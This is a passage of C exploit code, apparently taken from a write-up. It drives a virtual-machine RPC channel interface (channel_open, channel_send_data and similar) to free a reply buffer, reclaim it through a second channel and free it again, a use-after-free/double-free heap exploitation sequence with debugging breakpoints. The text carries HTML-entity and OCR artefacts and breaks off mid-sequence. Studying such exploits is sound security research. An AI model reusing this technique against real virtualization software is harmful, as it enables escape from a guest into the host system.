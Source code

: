 ```
    channel_set_len(chan[0].cookie1,chan[0].cookie2,chan[0].num,strlen(s21),&amp;res);//strlen(s21) = 0x100
    if(!res)`{`
        printf("fail to set len\n");
        return;
    `}`
    channel_send_data(chan[0].cookie1,chan[0].cookie2,chan[0].num,strlen(s21),s2,&amp;res);
    channel_recv_reply_len(chan[0].cookie1,chan[0].cookie2,chan[0].num,&amp;len,&amp;res);
    if(!res)`{`
        printf("fail to recv data len\n");
        return;
    `}`
    printf("recv len:%d\n",len);
    data = malloc(len+0x10);
    memset(data,0,len+0x10);
    for(i=0;i&lt;len+0x10;i++)`{`
        channel_recv_data(chan[0].cookie1,chan[0].cookie2,chan[0].num,i,data,&amp;res);
    `}`
    printf("recv data:%s\n",data);
    //second step free the reply and let the other channel get it.

    channel_open(&amp;chan[1].cookie1,&amp;chan[1].cookie2,&amp;chan[1].num,&amp;res);
    if(!res)`{`
        printf("fail to open channel!\n");
        return;
    `}`
    channel_set_len(chan[1].cookie1,chan[1].cookie2,chan[1].num,strlen(s2),&amp;res);
    if(!res)`{`
        printf("fail to set len\n");
        return;
    `}`

    channel_send_data(chan[1].cookie1,chan[1].cookie2,chan[1].num,strlen(s2)-4,s2,&amp;res);
    if(!res)`{`
        printf("fail to send data\n");
        return;
    `}`

    //free the output buffer
    printf("Freeing the buffer....,bp:0x5555556DD3EF\n");
    getchar();
    channel_set_len(chan[0].cookie1,chan[0].cookie2,chan[0].num,0xffff,&amp;res);
    if(!res)`{`
        printf("fail to recv finish1\n");
        return;
    `}`
    //finished sending the command, should get the freed buffer
    printf("Finishing sending the buffer , should allocate the buffer..,bp:0x5555556DD5BC\n");
    channel_send_data(chan[1].cookie1,chan[1].cookie2,chan[1].num,4,&amp;s2[16],&amp;res);
    if(!res)`{`
        printf("fail to send data\n");
        return;
    `}`

    //third step,free it again
    //set status to be 4


    //free the output buffer
    printf("Free the buffer again...\n");
    getchar();
    channel_set_len(chan[0].cookie1,chan[0].cookie2,chan[0].num,0xffff,&amp;res);

```